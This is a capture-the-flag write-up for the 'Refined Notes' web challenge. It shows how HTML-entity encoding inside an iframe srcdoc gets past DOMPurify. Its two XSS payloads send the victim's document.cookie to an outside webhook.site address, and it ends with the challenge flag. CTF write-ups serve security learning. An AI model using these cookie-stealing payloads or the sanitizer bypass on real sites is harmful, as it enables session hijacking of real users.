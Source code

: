 # Refined Notes

> <p>All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.</p>

## Path to Flag

We are given 2 web pages, which are the note input page and the admin bot to receive UUID from users.
I tried the note taking page, and found out that the inputted strings inside `srcdoc` attribute of iframe.

<img src="attachments/test.png">

I tried XSS, steal the cookie, and send it through webhook, since the expected response is an error.
```
<img src=x:x onerror=location.replace('https://webhook.site/215acd8e-56c7-4af9-b02b-2e99b61654b0/?x='+document.cookie)>
```

But since the input is inside srcdoc of iframe, we need to encode the payload with HTML Entity to escape the DOMPurify.
```
&lt;img src=x:x onerror=location.replace(&apos;https://webhook.site/215acd8e-56c7-4af9-b02b-2e99b61654b0/?x=&apos;+document.cookie)&gt;
```

<img src="attachments/flag.png">

`GPNCTF{3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l}`